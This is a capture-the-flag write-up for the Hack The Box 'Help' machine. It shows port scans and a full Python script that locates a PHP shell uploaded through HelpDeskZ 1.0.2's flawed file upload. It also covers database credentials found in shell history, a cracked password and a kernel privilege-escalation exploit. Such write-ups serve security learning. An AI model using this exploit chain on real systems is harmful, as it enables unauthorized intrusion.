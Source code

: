 ```yaml
---
layout: post
title: "Hack The Box: Help write-up"
date: 2019-02-07
excerpt: "File upload that leads to user and then kernel exploit. Too easy right? "
tags: [Hack The Box, Pentesting, File Upload, Kernel exploit]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/Help/images/header.png
---
```


# Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*

![Img](/assets/posts_details/Help/images/apache.png "Img")

Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*

![Img](/assets/posts_details/Help/images/hd1.png "Img")

We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*

![Img](/assets/posts_details/Help/images/hd2.png "Img")

And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*

![Img](/assets/posts_details/Help/images/hd3.png "Img")

### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*

![Img](/assets/posts_details/Help/images/file_blocked.png "Img")

So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*

![Img](/assets/posts_details/Help/images/github1.png "Img")

![Img](/assets/posts_details/Help/images/github2.png "Img")

Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*

![Img](/assets/posts_details/Help/images/image_upload.png "Img")

Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*

![Img](/assets/posts_details/Help/images/shell.png "Img")

### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

```mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*

![Img](/assets/posts_details/Help/images/searchsploit.png "Img")

I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*

![Img](/assets/posts_details/Help/images/root.png "Img")

Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
